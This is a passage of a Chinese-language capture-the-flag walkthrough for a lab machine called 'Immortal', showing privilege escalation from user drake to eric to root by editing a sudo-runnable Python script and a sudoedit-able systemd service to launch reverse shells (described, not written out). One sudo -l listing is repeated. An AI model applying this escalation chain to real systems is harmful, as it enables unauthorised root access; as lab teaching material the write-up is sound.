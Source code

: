 *ps:如果它提示没有找到密码可以多试几次，我不知道是不是我 suForce 的问题，我的会误报*

```bash
drake@Immortal:/home$ sudo -l
Matching Defaults entries for drake on Immortal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User drake may run the following commands on Immortal:
    (eric) NOPASSWD: /usr/bin/python3 /opt/immortal.py

```

可以用 **python3** 执行`/opt/immortal.py`，`/opt/immortal.py` 我们有编辑权限，直接改就好了，我甩了个反弹 shell 回去[肥肥瘫]

```bash
eric@Immortal:~$ sudo -l
Matching Defaults entries for eric on Immortal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User eric may run the following commands on Immortal:
    (root) NOPASSWD: sudoedit /etc/systemd/system/immortal.service
    (root) NOPASSWD: /usr/bin/systemctl start immortal.service
    (root) NOPASSWD: /usr/bin/systemctl stop immortal.service
    (root) NOPASSWD: /usr/bin/systemctl enable immortal.service
    (root) NOPASSWD: /usr/bin/systemctl disable immortal.service
    (root) NOPASSWD: /usr/bin/systemctl daemon-reload
eric@Immortal:~$ sudo sudoedit /etc/systemd/system/immortal.service
```

改个反弹 shell 上去,查看sudo权限

```bash
eric@Immortal:~$ sudo -l
Matching Defaults entries for eric on Immortal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User eric may run the following commands on Immortal:
    (root) NOPASSWD: sudoedit /etc/systemd/system/immortal.service
    (root) NOPASSWD: /usr/bin/systemctl start immortal.service
    (root) NOPASSWD: /usr/bin/systemctl stop immortal.service
    (root) NOPASSWD: /usr/bin/systemctl enable immortal.service
    (root) NOPASSWD: /usr/bin/systemctl disable immortal.service
    (root) NOPASSWD: /usr/bin/systemctl daemon-reload
eric@Immortal:~$ sudo sudoedit /etc/systemd/system/immortal.service
```

![image](https://github.com/user-attachments/assets/03c06f7b-54a5-44f4-9a93-6f98aa26aa5d)

把**ExecStart**改成了**反弹shell，**  重启一下服务

```bash
eric@Immortal:~$ sudo /usr/bin/systemctl start immortal.service
```
